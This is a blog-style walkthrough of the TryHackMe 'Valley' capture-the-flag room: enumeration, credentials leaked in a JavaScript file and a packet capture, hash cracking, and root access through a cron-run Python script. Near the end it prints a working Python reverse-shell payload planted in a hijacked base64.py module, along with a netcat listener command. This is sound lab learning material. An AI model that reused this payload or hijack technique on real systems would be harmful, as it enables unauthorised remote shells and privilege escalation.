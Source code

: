 ```yaml
---
title: "TryHackMe Valley Writeup"
datePublished: Mon Nov 27 2023 17:50:20 GMT+0000 (Coordinated Universal Time)
cuid: clph7fq02000109jofqev0k8m
slug: tryhackme-valley-writeup
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1701107122995/946947fa-9699-4ae5-ade0-6dad6d7f66c9.jpeg
tags: ctf, tryhackme, pathhijacking

---
```


### Introduction

The Room [Valle](https://tryhackme.com/room/valleype)y is one of TryHackMe's easy boxes. We need to find the user and the root flag to complete the room. In the description, it says: Boot the box and find a way in to escalate all the way to root!

### Initial Access

I grew tired of typing IPs in the terminal so this time I added the rooms IP to /etc/hosts as valley.thm. Then I started with an Nmap scan as usual.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700156259636/e234a3b7-47a4-4b6d-b41f-3b0ba39fc967.png align="center")

We have SSH on port 22 and a website on port 80. I checked the website, but nothing interesting to find here.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700156358279/ec161bdf-57cd-48dc-af31-910c6a4fa62d.png align="center")

The buttons led to a gallery and a pricing table. In the site's source and the inspector's view, there was nothing else to see. I quickly searched for the usual /robots, /robots.txt etc. but no luck here as well. I used gobuster to enumerate the website further.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700156618988/a0073f0f-2b1e-429e-824e-8ce3419859e4.png align="center")

The directory /server status was the only newcomer on the list. But Access was forbidden. I noticed that the pictures from the gallery were stored in /static. The first picture was stored in /static/1 the second in /static/2 etc.. I tried a couple of other combinations like /static/99, /static/01 etc., and out of pure luck /static/00 gave me a hit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700157280262/d8452532-8774-4984-9065-fdc4cf46f470.png align="center")

There I got another directory to try, which I did immediately. It leads to a login page

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700157426241/4b64b450-9264-4a01-9846-74b2a1719557.png align="center")

This time I had no luck by trying the usual suspects like admin/admin. So I checked again the source of the site and gave it a closer look in the inspector. In the inspector, I found a suspicious dev.js file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700157661261/7770b91e-6be8-499b-a33e-2e579cf13b32.png align="center")

In the dev.js file, I found the credentials to log in.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700157728381/c791527d-8877-4289-8b3a-8033d7ad4ebd.png align="center")

Again I got some notes. The first one gave me the impression to try and reuse the found credentials, the last one made me do another Nmap scan for all possible ports.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700157854221/f238e4d6-21f4-4720-92e3-8c51bb0ec3ba.png align="center")

There is one additional Port open with an unknown service. I'm expecting it to be the said ftp port. I tried the credentials found in the dev.js. and had access to the ftp server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700157955520/c5eb61bf-4daf-45b1-8308-25599ddcd33a.png align="center")

I found three files, and all of them seemed to be packet captures. I downloaded them to my machine and inspected them further with Wireshark. After a couple of minutes, I found some credentials in the siemHTTTP2.pcap. I used them to log in via ssh.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1700158151434/d31217af-d17f-4cb3-bbb2-7b23d1bec3c1.png align="center")

Here I found the user flag.

### Privilege Escalation

In valleyDev's directory, I found a file valleyAuthenticator. It seems to be a compiled program but I couldn't start it. I checked if Python was available on the valleyDevs machine, and it was. So I opened a python simple HTTP server and downloaded the file to my machine for further inspection. I tried to decompile it with Ghidra, but wasn't able to get anything useful. I'm by no means an Expert in reverse engineering, it's something I need to address in the future. I spent some time trying to reverse-engineer the file, but after some time I gave up and looked at this [writeu](https://cyberiumx.com/write-ups/tryhackme-valley/)p. The author used a tool called upx. I followed CyberiumXs instructions and I was able to get two md5 hashes. I cracked them with an online Hash tool and got credentials for the user valley. I used them to log in via SSH.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1701105061483/d52fd7fa-28c5-43a4-a0a2-bfe174d9e4b7.png align="center")

### Getting Root

In valleys directory, there was nothing of interest to find. I checked for interesting crontabs.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1701105175586/fdbd2a91-a5cc-4dcb-a0c3-a337de43d44f.png align="center")

I found a Python program that ran as root. I opened it and immediately noticed the base64 import. This meant I could possible use a technique called Path Hijacking.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1701106030534/4fb14814-4466-40d3-9ee9-9c5d835503e1.png align="center")

I located the base64.py file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1701106125361/13873a13-cb4b-41d0-a844-ef99f0ac9df2.png align="center")

And opened it in Nano to edit it. So I can sneak in a reverse shell. I used this reverse shell in the b64encode() function of the base64.py file.

```python
import sys
import socket
import os
import pty
s=socket.socket()
s.connect(("10.8.31.69", 1234))
[os.dup2(s.fileno(), fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

While I waited for the cronjob to run, I set up a Netcat listener on port 1234.

```bash
nc -lvnp 1234
```

After the cronjob ran I got a reverse shell as root and was able to retrieve the root flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1701106791389/26ecccc8-0ee7-4eff-abee-325875190692.png align="center")

And the room was completed.